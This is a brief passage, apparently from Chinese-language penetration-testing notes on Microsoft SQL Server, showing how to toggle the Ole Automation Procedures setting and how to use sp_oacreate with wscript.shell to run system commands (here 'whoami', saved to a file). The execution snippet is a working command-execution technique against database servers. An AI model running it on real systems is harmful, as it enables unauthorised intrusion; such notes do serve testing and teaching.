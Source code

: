 

#### 关闭

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```

#### 执行

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod
@shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
回显可能显示不出来，把结果保存到1.txt中，便于查看结果！
```

![](image60/60-33.png)
